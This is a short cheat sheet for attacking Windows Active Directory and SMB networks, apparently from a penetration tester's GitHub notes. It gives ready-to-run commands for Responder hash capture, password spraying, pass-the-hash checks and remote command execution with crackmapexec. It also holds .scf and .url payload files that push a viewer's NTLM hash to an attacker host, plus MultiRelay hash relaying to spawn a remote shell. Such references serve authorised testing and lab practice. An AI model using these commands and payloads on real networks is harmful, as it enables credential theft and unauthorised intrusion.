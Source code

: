 ## Getting Creds
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_

```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```
_Example index.scf file that can force any machine that views a share to send hash to attackers responder_

```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```
_Example .url file that when clicked will send hash to attackers responder_

* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* [kerberoast](https://room362.com/post/2016/kerberoast-pt1/) _stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_

## Enumeration
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user hass access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_
